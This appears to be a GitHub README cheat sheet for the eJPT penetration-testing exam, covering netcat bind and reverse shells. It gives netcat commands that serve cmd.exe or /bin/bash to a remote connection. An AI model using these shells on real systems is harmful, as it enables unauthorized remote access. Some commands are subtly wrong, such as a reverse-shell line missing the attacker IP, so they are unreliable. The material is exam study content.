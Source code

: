 <p align="center">
    <img src="LogoBiggerBW.png" alt="BPM Circuits" width="300" />
</p>

<p align="center">
  eJPT-CheatSheets<br>
  Bartosz Pokrywka
</p>

<p align="center">
    Usefull info and commands for eJPT cert exam
</p>


# Vulnerability Scanning

## Shells

### Netcat Fundamentals

Can be used for:

- Banner Grabbing
- Port Scanning
- Transfering Files
- Bind/Reverse Shells

**Setup listener:**

    > nc -nvlp <port>

**Setup connection:**

    > nc -nv <IP> <port>

### Bind Shells

Downside of bind shell is that the firewall will probably block the connection.

**Target system:**

    > .\nc.exe -nvlp <port> -e cmd.exe

**Attacker system:**

    > nc -nv <IP> <port>

OR

**Target system:**

    > nc -nvlp <port> -c /bin/bash

**Attacker system:**

    > .\nc.exe -nv <IP> <port>

### Reverse Shells

Better thing: Attacker (Netcat Listener) <---- Target (Netcat Client)

**Target system:**

    > .\nc.exe -nv <port> -e cmd.exe

**Attacker system:**

    > nc -nvlp 1234

### Reverse Shell Cheatsheet

- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

- https://www.revshells.com
